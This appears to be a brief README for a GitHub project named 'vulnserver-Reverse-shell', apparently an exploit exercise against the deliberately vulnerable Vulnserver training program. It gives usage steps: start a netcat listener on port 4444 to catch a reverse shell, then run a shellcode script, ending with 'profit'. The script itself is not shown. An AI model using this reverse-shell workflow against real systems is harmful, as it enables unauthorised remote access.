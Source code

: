 # vulnserver-Reverse-shell
### usage information
 Open a terminal and setup a netcat to listen on port 4444
 
 `nc -nvlp 4444`
 
 run the script
 `./shellcode.py`
 
  `profit`
